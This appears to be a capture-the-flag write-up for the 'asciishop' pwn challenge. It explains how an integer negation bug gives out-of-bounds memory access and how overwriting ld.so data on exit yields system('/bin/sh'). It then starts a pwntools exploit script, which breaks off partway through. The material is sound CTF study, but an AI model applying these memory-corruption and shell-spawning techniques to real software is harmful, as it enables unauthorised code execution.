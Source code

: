 ## 985 Pwn / asciishop

The vulnerability is `-0x80000000 == 0x80000000`, which is still a negative number. We can set this as the `offset` of the image, so we can have bypass all checks and achieve OOB read and write. However, unfortunately when used as index, integer will be converted to `uint16_t`, so we can only access memory `0x10000` after the memory allocated by `mmap`. 

After inspecting the memory map, I found that only `ld.so` is after the `mmap` region. The offset from `ld.so` to `mmap` region is constant at each run but may vary on different computer (the remote offset is `+0x1000` higher than mine). We can leak the `libc` by reading got table of `ld.so`, but how to control `rip` by writing memory in `ld.so`? The key is when `exit` function is called, at `ld.so+0x10a09`, there is a `lea rdi, [rip + 0x217f5f]; call qword ptr [rip + 0x218551]`, and these 2 addressed are both in `ld.so` and can be overwritten. Therefore, if we rewrite the first one to `"/bin/sh"` and second one to `system`, we can execute `system("/bin/sh")`.

By the way, the way this author implements `print_grid` is very inelegant: bytes are signed extended so `ffffff` will be produced if the `char` are negative, and there is also ambiguity of output `1-f`. Also, stack protector of `llvm` is enabled, which I don't know why and this does not affect my exploitation, maybe my approach is unintended? 

```python
from pwn import *
from struct import unpack
g_local=1
context(log_level='debug', arch='amd64')
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

if g_local:
	sh = process("./asciishop")
	OFF = 0
	gdb.attach(sh)
else:
	sh = remote("challenges.fbctf.com", 1340)
	OFF = 0x1000

def upload(imgid, img):
	sh.sendline("1")
	sh.recvuntil("id: ")
	sh.sendline(str(imgid))
	sh.recvuntil("ascii\n")
	sh.send(img.ljust(0x410, '\x00'))
	sh.recvuntil(">>> ")

def shop():
	sh.sendline("4")
	sh.recvuntil(">>> ")

def touch(imgid):
	sh.sendline("1")
	sh.recvuntil("Ascii id: ")
	sh.sendline(str(imgid))
	sh.recvuntil(">>> ")

def shop_then_touch(imgid):
	shop()
	touch(imgid)

def back():
	sh.sendline("4")
	sh.recvuntil(">>> ")

def change_pixel(x,y,v):
	sh.sendline("1")
	sh.recvuntil("pixel: ")
```